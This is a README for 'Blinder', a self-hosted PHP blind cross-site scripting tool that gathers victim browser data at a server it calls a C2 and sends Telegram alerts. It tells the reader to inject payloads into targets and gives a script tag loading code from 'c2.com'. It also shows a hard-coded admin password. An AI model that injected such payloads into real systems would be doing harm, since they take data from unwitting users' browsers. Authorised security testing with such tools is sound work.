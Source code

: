 # Blinder

[![PHP Version](https://img.shields.io/badge/php-%3E%3D7.4-blue)](#) [![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](#)

**Blinder** is a self-hosted PHP-based Blind XSS detection and management tool designed to streamline vulnerability discovery, automate payload collection, and deliver real-time notifications via Telegram.

---

## ✨ Key Features

* **Blind XSS Detection**: Capture out-of-band XSS payloads.
* **Real-Time Telegram Alerts**: Get notified instantly on payload triggers.
* **Web Interface**: Centralized panel to monitor and manage data.
* **Flexible Payloads**: Works with customized payloads. To make changes, alter index.php (script portion).
* **Self-Hosted Support**: Integrate with your own C2 server.
* **Intrusive data**: Local NAT IP and system battery percentage is fetched.

---

## 📦 Installation

1. **Clone the repo**:

   ```bash
   git clone https://github.com/AamerShah/blinder.git
   cd blinder
   ```
2. **Install PHP dependencies**: Not necessary

   ```bash
   composer install
   ```
3. **Configure server**:

   * Set your document root to `public/`
   * Ensure PHP 7.4+ is installed with `curl` and `mbstring` extensions enabled

---

## ⚙️ Configuration

### 1. Telegram Bot Setup

* Edit `collect.php`:

  * Line 11: Set Telegram bot token:

    ```php
    $telegram_token = 'YOUR_TELEGRAM_BOT_TOKEN';
    ```
  * Line 12: Set chat/group ID:

    ```php
    $chat_id = 'YOUR_TELEGRAM_CHAT_ID';
    ```

  * Line 55 in `collect.php`:

    ```php
    $msg .= "<a href=\"https://c2.com/admin.php\">View full log</a>";
    ```

### 2. Host URL

* Line 6 in `index.php`:

  ```php
  const endpoint = 'https://c2.com/collect.php';
  ```

### 3. Set admin password

* Line 3 in `admin.php`:

  ```php
  $hardcoded_password = "Sup3r_S3cr3t";
  ```

---

## 💡 Usage Steps

1. **Host** the project on your server
2. **Generate XSS payload** from UI/CLI
3. **Inject** the payload into the target
4. **Wait** for alert in your Telegram
5. **Analyze** data via the dashboard
6. ***<script/src=//c2.com></script>***

---

## 🛡️ Security Best Practices

* Isolate the server from production assets
* Use HTTPS for all traffic
* Add access control via `.htpasswd` or firewall rules

---

## 📝 Contributions

Feel free to fork and submit PRs. Open issues for feature requests or bugs.

---

## 📄 License

Licensed under MIT. See [LICENSE](LICENSE) file.

---

**Developer:** [Aamer Shah](mailto:aamer@pm.me)
